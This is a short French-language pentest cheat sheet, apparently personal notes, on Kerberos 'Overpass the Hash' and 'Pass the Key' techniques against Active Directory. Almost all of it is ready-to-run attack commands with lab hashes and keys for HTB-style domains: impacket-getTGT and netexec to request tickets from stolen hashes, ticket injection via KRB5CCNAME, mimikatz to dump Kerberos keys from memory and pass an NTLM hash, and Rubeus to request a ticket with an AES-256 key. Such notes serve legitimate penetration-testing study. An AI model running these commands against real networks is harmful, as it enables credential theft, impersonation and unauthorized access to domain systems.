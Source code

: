 
# Overpass The Hash / Pass the Key

> [!tip]
> Permet de forger un Ticket à l'aide du hash NT ou de la clé AES.
> 
> Overpass the Hash -> exploite le hash NT (RC4)
> Pass the Key -> exploite les clés DES, RC4, AES-128 et AES-256


# LINUX


## 1. Requête du TGT

#### Impacket

```bash
impacket-getTGT infiltrator.htb/e.rodriguez -hashes aad3b435b51404eeaad3b435b51404ee:b02e97f2fdb5c3d36f77375383449e56 -dc-ip dc01.infiltrator.htb
```
#### Netexec

```bash
nxc smb ip -u user -p password --generate-tgt /tmp/<user_tgt>
```

## 2. Injection du ticket #LINUX

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```



# WINDOWS

## Mimikatz(admin)

Extraire les clés Kerberos AES & RC4

```cmd
.\mimikatz.exe privilege::debug sekurlsa::ekeys exit
```

Overpass The Hash (RC4)

```cmd
.\mimikatz.exe privilege::debug "sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f" exit
```

## Rubeus

Pass the Key (AES-256)

```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

